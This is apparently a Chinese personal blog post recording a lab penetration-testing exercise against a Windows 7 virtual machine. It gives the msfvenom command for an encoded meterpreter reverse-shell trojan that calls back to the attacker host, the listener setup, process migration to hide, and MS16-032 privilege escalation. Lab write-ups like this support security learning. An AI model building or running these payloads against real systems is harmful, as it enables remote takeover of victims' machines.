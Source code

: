 ```yaml
---
layout:    post
title:     后渗透获得一个普通session
subtitle:  学习学习
date:      2021-05-28
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - 渗透
---
```


> 实验环境：
>
> A：Kali 192.168.78.131 攻击机
>
> B：win7 192.168.78.128 受害机

### 先来一个简单的拿 shell 吧

1.在Kali开启 MSF

2.进入监听模块

```
use exploit/multi/handler
```

3.利用 msfvenom 制作木马程序

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=192.168.78.131 lport=4444 -b"\x00" -e x86/shikata_ga_nai -f exe > msf.exe
```

参数说明：

+ -p payload
+ -e：编码方式。
+ -i：编码次数。
+ -b：在生成的程序中避免出现的值。
+ -f exe： 生成 exe 格式。

+ -a：代表系统结构，需要和攻击机一样。
+ -platform：平台选择 Windows
+ -p windows/meterpreter/reverse_tcp 反弹

[![2FhEJU.png](https://z3.ax1x.com/2021/05/28/2FhEJU.png)](https://imgtu.com/i/2FhEJU)

4.将木马传到主机：

这里使用 python2： ``python -m SimpleHTTPServer port`` | python3：``python -m http.server port`` 搭建一个HTTP服务，提供一个文件浏览的web页面到某端口。

[![2FhjTx.png](https://z3.ax1x.com/2021/05/28/2FhjTx.png)](https://imgtu.com/i/2FhjTx)

在访问下载期间会有回显。

5.打开目标机，进入搭建地址下载木马：

[![2Fh5kV.png](https://z3.ax1x.com/2021/05/28/2Fh5kV.png)](https://imgtu.com/i/2Fh5kV)

6.返回第二步界面，设置监听主机

```
set lhost 192.168.78.131
```

7.查看配置

```
show options
```

[![2F4mh8.png](https://z3.ax1x.com/2021/05/28/2F4mh8.png)](https://imgtu.com/i/2F4mh8)

在设置一个 payload：

```
set payload windows/meterpreter/reverse_tcp
```

再看看选项：

[![2AbQR1.png](https://z3.ax1x.com/2021/05/29/2AbQR1.png)](https://imgtu.com/i/2AbQR1)

8.运行：run 或 exploit

[![2F4R3D.png](https://z3.ax1x.com/2021/05/28/2F4R3D.png)](https://imgtu.com/i/2F4R3D)

9.在 win7 中运行我们的 msf.exe 木马，再次查看 msf  控制台

[![2AbYZD.png](https://z3.ax1x.com/2021/05/29/2AbYZD.png)](https://imgtu.com/i/2AbYZD)

可以看到得到了session。

10.查看 session，如果此时是 meterpreter，输入 background 即可返回 msf exploit(multi/handler)。

[![2kVIUA.png](https://z3.ax1x.com/2021/05/28/2kVIUA.png)](https://imgtu.com/i/2kVIUA)

[![2Abbo4.png](https://z3.ax1x.com/2021/05/29/2Abbo4.png)](https://imgtu.com/i/2Abbo4)

这样我们就得到了一个普通的 session。

在 meterpreter 中看看身份：

[![2AbDQP.png](https://z3.ax1x.com/2021/05/29/2AbDQP.png)](https://imgtu.com/i/2AbDQP)

在 background 返回 msf 界面后，可以 ``sessions`` 查看进程，然后 ``session -i id`` 来进入 meterpreter 界面。再输入 ``shell`` 可以进入 win7 的 shell。

[![2AqPTe.png](https://z3.ax1x.com/2021/05/29/2AqPTe.png)](https://imgtu.com/i/2AqPTe)

当我们拿到 shell 后显示乱码，可以：

```
chcp 65001
```

### 隐藏自己 + 提权

#### 隐藏自己

先 ``ps`` 查看当前所有的会话进程。

再用 ``migrate 1844`` 将进程迁移到会话对应的 id。

(目前不懂)

#### 提权

返回 msf，使用 ``post/multi/recon/local_exploit_suggester`` 模块，查找目标机器未修补的漏洞：

```
use post/multi/recon/local_exploit_suggester
```

设置要攻击的会话 id：

```
set session 1
run
```

绿色代表对应的漏洞：

[![2AXUnP.png](https://z3.ax1x.com/2021/05/29/2AXUnP.png)](https://imgtu.com/i/2AXUnP)

利用现有的漏洞提权 (复制冒号之前的就可以，如 👇)

[![2AjCjI.png](https://z3.ax1x.com/2021/05/29/2AjCjI.png)](https://imgtu.com/i/2AjCjI)

```
#有的漏洞会失败，多试几个 成功后会返回 shell，否则就是失败了
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
show options
set session 2
run
```

[![2Ajg8H.png](https://z3.ax1x.com/2021/05/29/2Ajg8H.png)](https://imgtu.com/i/2Ajg8H)

再次查看我们的权限，可以看到提权成功。

提权详情 ------> [here](https://lll-yz.github.io/2021/05/28/内网渗透之提权/)